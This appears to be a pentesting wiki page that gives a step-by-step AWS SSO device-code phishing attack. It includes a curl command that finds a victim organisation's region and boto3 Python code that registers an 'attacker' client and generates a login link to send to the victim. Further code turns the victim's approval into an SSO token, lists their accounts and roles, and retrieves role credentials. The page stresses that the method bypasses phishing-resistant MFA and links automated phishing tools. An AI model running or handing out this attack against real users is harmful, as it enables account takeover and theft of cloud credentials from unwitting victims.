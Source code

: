# AWS - Identity Center & SSO Unauthenticated Enum

## AWS Device Code Phishing

Initially proposed in [**this blog post**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), it's possible to send a **link** to a user using AWS SSO that if the **user accepts** the attacker will be able to get a **token to impersonate the user** and access all the roles the user is able to access in the **Identity Center**.

In order to perform this attack the requisites are:

- The victim needs to use **Identity Center**
- The attacker must know the **subdomain** used by the victim `<victimsub>.awsapps.com/start`

Just with the previous info, the **attacker will be able to send a link to the user** that if **accepted** will grant the **attacker access over the AWS user** account.

### Attack

1. **Finding the subdomain**

The first step of the attacker is to find out the subdomain the victim company is using in their Identity Center. This can be done via **OSINT** or **guessing + BF** as most companies will be using their name or a variation of their name here.

With this info, it's possible to get the region where the Indentity Center was configured with:

```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```

2. **Generate the link for the victim & Send it**

Run the following code to generate an AWS SSO login link so the victim can authenticate.\
For the demo, run this code in a python console and do not exit it as later you will need some objects to get the token:

```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
    clientName = 'attacker',
    clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
    clientId=client_id,
    clientSecret=client_secret,
    startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```

Send the generated link to the victim using you awesome social engineering skills!

3. **Wait until the victim accepts it**

If the victim was **already logged in AWS** he will just need to accept granting the permissions, if he wasn't, he will need to **login and then accept granting the permissions**.\
This is how the promp looks nowadays:

![[../../../images/image (343).png]]

4. **Get SSO access token**

If the victim accepted the prompt, run this code to **generate a SSO token impersonating the user**:

```python
token_response = sso_oidc.create_token(
    clientId=client_id,
    clientSecret=client_secret,
    grantType="urn:ietf:params:oauth:grant-type:device_code",
    deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```

The SSO access token is **valid for 8h**.

5. **Impersonate the user**

```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
        accessToken=sso_token,
        maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
        accessToken=sso_token,
        accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
        accessToken=sso_token,
        roleName=<role_name>,
        accountId=<account_id>
)
sts_creds.get('roleCredentials')
```

### Phishing the unphisable MFA

It's fun to know that the previous attack **works even if an "unphisable MFA" (webAuth) is being used**. This is because the previous **workflow never leaves the used OAuth domain**. Not like in other phishing attacks where the user needs to supplant the login domain, in the case the device code workflow is prepared so a **code is known by a device** and the user can login even in a different machine. If accepted the prompt, the device, just by **knowing the initial code**, is going to be able to **retrieve credentials** for the user.

For more info about this [**check this post**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

- [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
- [https://github.com/sebastian-mora/awsssome_phish](https://github.com/sebastian-mora/awsssome_phish)

## References

- [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
- [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
- [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
- [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

